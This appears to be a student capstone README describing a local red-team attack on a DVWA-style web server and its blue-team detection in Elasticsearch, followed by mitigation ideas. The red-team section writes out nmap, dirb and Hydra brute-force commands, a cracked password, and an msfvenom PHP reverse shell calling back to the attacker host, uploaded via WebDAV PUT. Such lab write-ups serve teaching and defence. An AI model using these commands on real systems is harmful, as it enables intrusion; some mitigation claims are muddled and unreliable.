










# Red Team KALI | Blue Team ELASTICSEARCH
Elk vs Kali: 

| Hostname | Function | Network \ ip | Operating System
| -----------| --------- |---------        | ---------------------
|      Kali       | Attacker  | 192.168.1.90 | Linux 
|    DVWA    |  web-vm  | 192.168.1.105| Linux
|      ELK      | elk-server| 192.168.1.100| Linux 

-------------------------------------

# Goal of Experiment

1. Recon Capstone VM (DVWA) in a local environment
2. Attacking & Enumerations VM 
3. Blue Team Elk Analysis
4. Mitigation Strategies

!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!

 > Attacks are NOT PERMITTED to use directly in the azure network. The following experiment is virtualized & local. 

!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!

### Red Team Security Assessment
We will later detect all attacks from the blue team perspective and create baselines and thresholds for alerts based upon these attacks.

Jumping into an ACK scan to test the hosts firewall. 

	##### ACK scan to test the firewall
	> ip=192.168.1.105
	> nmap -sA $ip
	> 1000 scan results are unfiltered. 
	
	##### Performing very active port scan
	> nmap -sV -A $ip
	
	22/ ssh 
	80/ apache 2.24.29. The -A option automatically does everything, including traceroutes and maybe dns. We can see a few directories hosted on port 80. 
	
	# dirb
	> dirb $ip/company_folders
	
	results: 
	company_folders/secret_directory
	webdav/ 
	
##### Brute Force over http form 
	# Hydra attack a form over http 
	> hydra -l ashton -P /usr/wordlists/rockyou.txt -s 80 -f -vV 192.168.1.105 http-get /company_folders/secret_folder
	
> Hydra is unable to work with CSRF tokens.

Credentials allow access into the folder where instructions are left behind by the employees to access webdav. A user by the name of `ryan` and his md5 hash of a password located in /etc/passwd. Using john the rippper, this hash can be creacked `linux4u'. Entrance into the webdav exploit leads us to another vulnerability which will include direct upload access into the webdav folder. 

	# Dirb scan to find hidden folders within the hidden folder
	> dirb http://192.168.1.105/company_folders/secret_folder
	> dirb http://192.168.1.105/webdav 
	
	Nothing found running dirb again but worth it to try.

##### Supported filetypes in php in the local shared webdav folder 

Here you can see the webdav can be accessed by ways: over http using burp or by searching in your local filesystem by making a call to dav://192.168.1.105/webdav and using ryans credentials.

Since the folder allows drag and drop uploads of any file type including php, we are able to quickly upload a staged reverse shell. 
	
	`msfvenom -p php/meterpreter/reverse_tcp -f raw LHOST=192.168.1.90 LPORT=4444 > shell4.php`
	
	- no architecture need be specified: -a 
	- no encoding need be specified: -e 

##### Burp access. 

The other ways of obtaining a shell is to use burpsuite. 

	# use options to view allowed options within repeater
	GET /webdav/ HTTP1.1 
	OPTIONS /webdav/ HTTP/1.1 
	
	ALLOWs: GET, POST, DELETE, PROPFIND, MOVE, PUT, LOCK, UNLOCK
	
- we will be using the PUT method. 
- After authorization and additional header will be added: Authorization: Basic cnlbijsaW51eDRI

	# msfconsole
	> use exploit/multi/handler
	> set lhost, lport 
	> run 
	
	# Change PUT back to GET in burp
	> GET /webdav/shell5.php HTTP/1.1 
	
	>Meterpreter
	>sysinfo 
	Computer : Server1
	OS       : Linux server1 4.15.0-108-generic 
	
	> getpid
	Current pid: 1365
	

-------------

## Blue Team Assessment

##### Identifying the Port Scan @01:07:40.004
	> source.ip: 192.168.1.90 and destination.ip: 192.168.1.105 
	

	- 916.424 hits total occurrances
	
	add > and network.packets: 2
	
this filtering will show the entirety of the nmap -sC -sV scan. 
A stealthy scan or -T1 command will show up differently than a full tcp scan, therefore custom alerts will have to be made for varying timeframes, e.g. hourly, daily. 

An alert can be made by querying out network `packets: 2` as default nmap SYN scans. 

##### Finding the Request for the Hidden Directory @01:50.14

	# Secret Folder accessed 51038 times due to dirb and ffuf  
	> source.ip: 192.168.1.90 and destination.ip: 192.168.1.105 and url.path: /company_folders/secret_folder/*
	
- Aside from the hydra http-get attack also, some human written forensic information was uncovered after  finding `ryans hash`, which was found to be `linux4u` and the location

- This alert triggers for new hosts connected and hosts not approved & pre-configured. 

##### Uncovering the Brute Force Attack @01:48:47.748

#### Search for this brute force attack

> user_agent.original: "Mozilla/4.0 (Hydra)"

> This hydra attack does not mask locations or hostnames and is easy to tell from all the ERROR status. 

###### This Hydra attack occurs very fast and is not a stealthy attack with a baseline of over 200 requests per second and 11000 per minute

##### Finding the WebDAV Connection @02:31:29.518

#### Total Number of WebDAV Connections

- 616 requests were made to this directory alone
- Files requested were shells in php format.
###### Alarms: 
- Set for ip addresses called to as the foreign destination address
- Format php alarm. 

> Mitigating this attack would be to configure access in the webDav for Administrative access to upload files via PUT request and also not allow the forgery of the filetype.

- After this migitation payloads may need to be encoded and named in different formats. It is HTTP/1.1 after all.

# Mitigation Strategies 

##### Blocking the Port Scan 
Port scans occur within seconds and enumeration stage level should be alerted within.
one way to block the syn-scan is to block request not sending the fyn access to establish their connection to the server. Same for the full tcp connect across all ports. 

- nmap would result in closed or filtered. 
- Detecting stealth scans kernel-level work

##### blocking icmp ping sweeps 
Block icmp ping sweeps from detecting and accepting the configuration of allowed hosts and syn-scans doing these. Mitigations would be to block sessions or ip's that are not completing the full TCP handshake. 

	# Types of port scans that would require different alarms. 
	- Ping scans
	- Ack scans XMAS 
	- location bounce
	- sweep scan 

	# Other Mitigations
	- honeypots sending hackers to empty hosts. 
	- change port numbers to non-standard ports. example: 22 -> 2245

	- XMAs scans alerts would be set for minutes and even seconds. 
	
	- Stealthier scans will take longer to collect, but as the hosts sends more packets, over time it will be detected that they are doing a port scan by scanning stealthily 8 ports. 
	
	- Blocking public icmp scans helps and filtering helps but by default, nmap only sends a SYN, making it easier to detect in an IDS and especially for a firewall or IPS for that matter. 

##### Finding the Request for the hidden directory 
	- Firewall access in LAN only since it is a fileshare
	
	- configurations in the firewall will do the trick. UFW uncomplicated firewall on the host machines and IPS on the network. 
	
	- only certain users should have the secret_directory available in the first place. It should not be accessable or indexed without authentication first. 

	- In this local fileshare scenerio, port 80 has no need of being accesssable from outside the netork. 
	
	- Could fall under Broken Access Control as this constitutes as access to an admin panel. 
	
	> Mitigations
		- Tokens
		- Another layer of login
		- Denying public access
		- check for webroots
		- Proper access controls
		
		** > ufw deny all incoming
		 - allow only incoming connection for port 80 in this case. 
		

##### Preventing Brute Force Attacks 
	-	Configure the webdav with the firewall. 
	
	-   CSRF tokens since this is over http and providing access control for loggins and sessions.
	
	-   Utilizing Cryptography.

> Hydra by default does not support csrf attacks

	- Multi authentication.
	- Lockout for failed attempts.
	- Alerts if correct usernames and passwords were used. 

##### Detecting the WebDAV Connection 
	- LAN access only on differing levels. 
	
	- Substring searches in the fileshare that contain WebDAV related keywords
	
	- Changing the webdav directory name > dav://192.168.1.90/______ so dirb cannot find it within its default wordlist. 
	
	- LAN static configuratiions and checks on the filesystems, making sure mac address remain the same.
	
	- PUT commands should be available to Administrators only and not managers. 
	
	- Cryptography and these connections to the fileshare would be good if 256bit keys match and open for about 30 minutes for uploading of files in general. 

##### Reverse Upload Shells 
	- Disallow php files that can be read by apache. 
	- upgrade http/1.1 so filenames can't be spoofed.
	
> msfvenom may then require encoding and architecture specification

	- Be on the look out for RCE vulnerabilities such as Log4shell that targets apache servers using log4j service and patch its use (update).
	
	
	

